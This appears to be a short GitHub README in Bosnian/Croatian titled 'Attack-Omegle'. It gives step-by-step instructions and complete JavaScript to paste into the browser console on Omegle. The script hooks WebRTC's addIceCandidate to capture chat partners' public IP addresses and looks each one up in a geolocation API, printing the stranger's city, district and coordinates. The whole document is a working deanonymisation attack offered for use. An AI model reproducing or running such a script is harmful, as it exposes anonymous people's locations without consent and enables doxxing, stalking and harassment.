# Attack-Omegle
Ima te u cosku na desnoj strani browzera 3 tackice koje idu ovako:" ... " i vikliknite na te tackice pa idite na vise alata i alati za razvoj inzenjera.
Takoder prije toga morate u ovaj kod unjeti kljuc koji ce te dobiti na: https://app.ipgeolocation.io/
Code:
const apiKey = "OVDJE NAPISATI TVOJ API KLJUC";

window.oRTCPeerConnection =
window.oRTCPeerConnection || window.RTCPeerConnection;

window.RTCPeerConnection = function (...args) {
const pc = new window.oRTCPeerConnection(...args);

pc.oaddIceCandidate = pc.addIceCandidate;

pc.addIceCandidate = function (iceCandidate, ...rest) {
const fields = iceCandidate.candidate.split(" ");

const ip = fields[4];

if (fields[7] === "srflx") getLocation(ip);

return pc.oaddIceCandidate(iceCandidate, ...rest);
};

return pc;
};

const getLocation = async (ip) => {
let url = `https://api.ipgeolocation.io/ipgeo?apiKey=${apiKey}&ip=${ip}`;
await fetch(url).then((response) =>
response.json().then((json) => {
const {
city,
district,
state_prov,
country_name,
latitude,
longitude,
} = json;
const output = `
---------------------
Country: ${country_name}
State: ${state_prov}
City: ${city}
District: ${district}
Lat / Long: (${latitude}, ${longitude})
IP: ${ip}
---------------------
`;
console.log(output);
})
);
};
